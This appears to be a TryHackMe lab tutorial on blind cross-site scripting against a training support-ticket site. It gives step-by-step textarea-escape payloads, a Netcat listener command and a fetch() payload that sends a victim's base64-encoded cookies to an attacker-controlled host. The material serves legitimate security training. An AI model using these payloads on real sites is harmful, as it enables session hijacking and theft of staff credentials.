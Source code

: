 Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.  
  
**Example Scenario:**  
  
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.  
  
**Potential Impact:**  
  
Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

**How to test for Blind XSS:**

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

  

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

------------------------------------------------------------------------

Example:
Click on the **Customers** tab on the top navigation bar and click the "**Signup here**" link to create an account. Once your account gets set up, click the **Support Tickets** tab, which is the feature we will investigate for weaknesses. 

Try creating a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 

Like task three, we will investigate how the previously entered text gets reflected on the page. Upon viewing the page source, we can see the text gets placed inside a textarea tag.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5c549500924ec576f953d9fc/room-content/23721628b263e7d6fd00097904bc6847.png)  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/34e69ee3fce3021fee02a13a680d5d47.png)  

Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:

`</textarea>test`

Again, opening the ticket and viewing the page source, we've successfully escaped the textarea tag.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/e247f6dd0b2ebe0e4e512b16b41cec05.png)  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/0ad04cf010b889a8adfdba9d24bcb826.png)  

Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:

 `</textarea><script>alert('THM');</script>`  

Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

Using the AttackBox, let’s set up a listening server using Netcat. If we want to listen on port 9001, we issue the command `nc -l -p 9001`. The `-l` option indicates that we want to use Netcat in listen mode, while the `-p` option is used to specify the port number. To avoid the resolution of hostnames via DNS, we can add `-n`; moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

nc

           `user@machine$ nc -nlvp 9001 Listening on [0.0.0.0] (family 0, port 9001)`
        

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.

Now create another ticket using the above payload, making sure to swap out the `URL_OR_IP:PORT_NUMBER` variables with your settings (make sure to specify the port number as well for the Netcat listener). Now, wait up to a minute, and you will see the request come through containing the victim’s cookies.